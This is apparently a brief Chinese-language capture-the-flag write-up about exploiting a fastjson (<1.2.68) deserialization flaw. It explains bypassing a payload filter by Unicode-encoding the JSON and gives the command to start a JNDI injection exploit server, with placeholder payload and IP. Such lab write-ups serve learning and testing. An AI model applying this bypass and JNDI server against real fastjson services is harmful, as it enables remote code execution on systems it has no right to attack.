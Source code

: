 结合应该是fastjson反序列化漏洞

#### fastjson <1.2.68反序列化漏洞

直接payload试一下，被ban了

![image-20210315130941235](VN2021/image-20210315130941235.png)

需要绕过，JSONObject.parseObject()会自动会把json字符串中的Unicode码进行转换，所以转成Unicode即可

服务器起 [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "payload" -A ip`

![image-20210315140129288](VN2021/image-20210315140129288.png)
